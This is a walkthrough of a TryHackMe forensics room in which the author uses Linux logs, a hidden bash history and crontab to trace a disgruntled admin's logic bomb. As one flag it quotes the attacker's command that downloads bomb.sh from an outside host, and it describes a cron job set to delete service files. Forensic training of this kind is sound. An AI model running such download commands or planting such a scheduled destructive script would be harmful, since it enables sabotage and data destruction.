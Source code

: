 # FORENSICS CHALLENGE
## TRYHACKME CTF ROOM
*https://tryhackme.com/r/room/disgruntled*

### Description
Hey, kid! Good, you’re here!

Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.

CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.

- Connect to the VM 

### Walkthrough

Lets have a poke around at the privileged commands that were run.
- cd var/log
- ls

Read the file and filter the search
- cat /var/log/auth.log | grep install

![alt text](auth.png)

#### Flag 1 : /usr/bin/apt install dokuwiki
#### Flag 2 : /home/cybert

So we're told that a user was created after this previous package was implemented. We just need to adjust the grep filter search to 'adduser'

![alt text](adduser.png)

#### Flag 3 : it-admin

Now for the next flag we are told *A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)*
- Again just adjust the grep filter : cat auth.log | grep visudo
####  Flag 4 : seen in image

![alt text](time.png)

*A script file was opened using the "vi" text editor. What is the name of this file?*
- Adjust the grep filter : cat auth.log | grep vi
####  Flag 5 : seen in image

![alt text](vi.png)

### clue
That bomb.sh file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

Lets go to the directory of the it-admin account we discovered earlier
- cd /home/it-admin
- ls (returns no results)
- ls -la (returns the hidden results we need)

Now we can read the contents of the bash history file
- cat .bash_history

![alt text](bash.png)

#### Flag 6 : curl 10.10.158.38:8080/bomb.sh --output bomb.sh

Now in the image above we can see that the user moved the file to /etc/crontab so lets read the contents
- cat /etc/crontab

![alt text](crontab.png)

#### Flag 7 : bin/os-update.sh

So we need to know when this file was last modified
- ls -lt /bin/os-update.sh 
Now this didn't show me the exact time stamp so we need to make our command more specific
- ls -lt --time-style=+'%Y-%m-%d %H:%M' /bin/os-update.sh

![alt text](time2.png)

#### Flag 8 : Dec 28 06:29

Now to find the next flag we need to read the /bin/os-update.sh file
- cat /bin/os-update.sh

![alt text](txt.png)

#### Flag 9 : goodbye.txt

We have already found the location of the script and the timer to execute previously in /etc/crontab file. (crontab.png)
- We need to convert the scedule using an online translator https://crontab.guru/
- Just input 0 8  * * * into the translator and we get the time and flag

![alt text](schedule.png)

#### Flag 10 : 08:00 AM

## Conclusion

Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.

Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.